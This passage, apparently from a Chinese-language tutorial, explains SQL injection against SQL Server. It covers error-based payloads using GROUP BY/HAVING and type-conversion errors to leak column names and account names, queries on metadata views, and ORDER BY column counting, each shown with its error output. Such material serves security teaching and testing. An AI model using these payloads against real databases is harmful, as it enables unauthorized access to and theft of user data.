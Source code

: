 SQL执行器将抛出一个错误：       
消息8120，级别16，状态1，第2行           
选择列表中的列“users.id”无效，因为该列没有包含在聚合函数或GROUP BY子句中。           
可以发现当前表名为“users”，并且存在“ID”列名，攻击者可以通过此特性继续得到其他列名           
```sql
select * from users where username='root' and password='root' group by users.id having 1=1 --'
```

执行器错误提示：       
消息8120，级别16，状态1，第1行           
选择列表中的列“users.username”无效，因为该列没有包含在聚合函数或GROUP BY子句中。           

#### 1.2 利用数据类型错误提取数据
```sql
select * from users where username='root' and password='root' and 1 > (select top 1 username from users)
```

执行器错误提示：    
消息245，级别16，状态1，第2行         
在将varchar值“root”转换成数据类型int时失败       
可以发现root帐户已经被SQL Server给“出卖”了，利用此方法可以递归推导出所有的帐户信息。                      

### 二、获取元数据
SQL Server提供了大量试图，便于取得元数据。   
取得当前数据库表：     
```sql
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```
取得Student表字段：
```sql
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='Student'
```
还有其他一些常用的系统数据库试图：
```sql
sys.databases ; 
ys.sql_logins ; 
sys.all_columns ; 
sys.database_principals ; 
sys.database_files ; 
sysobjects
```

### 三、Order by子句
```sql
select id,username,password from users where id=1 :SQL执行正常
select id,username,password from users where id=1 Order by 1 :按照第一列排序，SQL执行正常。
select id,username,password from users where id=1 Order by 2 :按照第二列排序，SQL执行正常。
select id,username,password from users where id=1 Order by 3 :按照第三列排序，SQL执行正常。
select id,username,password from users where id=1 Order by 4 :抛出如下异常。
消息108，级别16，状态1，第1行
ORDER BY位置号4超出了选择列表中项数的范围。
得知SQL语句总共有3列。
```

